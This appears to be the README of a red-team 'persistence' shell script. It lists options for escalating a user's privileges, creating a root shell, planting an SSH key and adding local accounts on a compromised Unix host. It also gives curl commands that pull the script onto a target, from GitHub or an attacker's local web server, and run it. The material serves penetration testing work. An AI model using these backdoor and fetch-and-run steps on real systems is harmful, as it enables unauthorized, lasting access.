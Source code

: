 # Persistence Phase

In this phase, an attempt is made to maintain persistence on the host or network. This is to maintain access to the compromised system, even if the system is rebooted or credentials are changed, for example. This includes creating new accounts or securing access via SSH, among other things.

With this script it is possible to apply some persistence techniques to get a foothold on a system.

## Features

- Elevate privileges
- Create a root shell
- Modify ssh keys
- Create local user

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
sh persistence.sh -h
```
Local network:
```sh
# Host:
sh persistence.sh -w
# Target:
curl -LJO <Host>:8000/persistence.sh
sh persistence.sh -h
```

### Parameters

```
sh persistence.sh -h

Usage: persistence.sh [options]

Options:
-h                Show this help message
-e <username>     Elevate privileges of the given user
                  Root needed!
-r                Create a root shell
                  Root needed!
-s <ssh pub key>  Trying to add ssh public key to authorized_keys of current user
                  Put the contents of your public key in quotes like: -s "ssh-rsa AAAAB3NcaDkL......"
-u <username>     Add a local account/user
                  Only useful in combination with -p parameter
                  Root needed!
-p <password>     Set this password to new or existent user
                  Root needed!
-w                Serves a local web server for transferring files

Output:
-q                Quiet. No banner and no advisory displayed
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 